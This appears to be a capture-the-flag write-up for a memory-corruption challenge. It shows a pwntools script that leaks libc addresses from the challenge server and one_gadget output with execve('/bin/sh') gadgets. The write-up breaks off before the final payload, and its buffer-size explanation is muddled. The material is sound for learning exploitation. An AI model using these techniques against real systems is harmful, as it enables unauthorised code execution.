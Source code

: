     The 1st chacne: Get libc symbol info.
     > system
     Libc function 'system' is at 0x7ffff7c50d60.
We are given the opportunity to leak 2 functions, and then we have a overflow

    char var_40;
    fgets(&var_40, 0x10, stdin);
    char rbx = var_40;

   We can see that the buffer's size is 16, so we overwrite 8 bytes with junk, and you ask why, so those 16 bytes will be saved into rbp, and after some instructions we have:
   

    0x5555555554f9 <main+374>    call   rcx

   It seems likely that a one_gadget will help us in this situation!
   So we only need to understand which libc the program use...
   I leaked values like 'system', 'puts' and '__libc_start_main', I then inserted them into [libc.database](https://libc.rip/) , and I found that the libc was [libc6_2.35-0ubuntu3_amd64](https://libc.rip/download/libc6_2.35-0ubuntu3_amd64.so).

So let's script what we have achieved:
```python
from pwn import *
#context.log_level = 'debug'
elf = context.binary = ELF('9end2outs')
io = remote("2outs.sstf.site", 1337)
#io = elf.process()
libc = ELF("libc.so.6")
#Leak system
io.sendlineafter(b"> ", b'system')
io.recvuntil(b"is at ")
system = int(io.recvline().strip()[:-1], 16)
libc.address = system - libc.sym['system']
log.info(f"System: {hex(system)}")
#Leak puts
io.sendlineafter(b"> ", b'puts')
io.recvuntil(b"is at ")
puts = int(io.recvline().strip()[:-1], 16)
log.info(f"Puts: {hex(puts)}")
#Leak LIBC base address
log.info(f"LIBC: {hex(libc.address)}")
```

Then we have the one_gadget;

    $ one_gadget libc.so.6 
    0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
    constraints:
      rsp & 0xf == 0
      rcx == NULL
      rbp == NULL || (u16)[rbp] == NULL
    
    0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
    constraints:
      address rbp-0x78 is writable
      [r10] == NULL || r10 == NULL
      [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
    
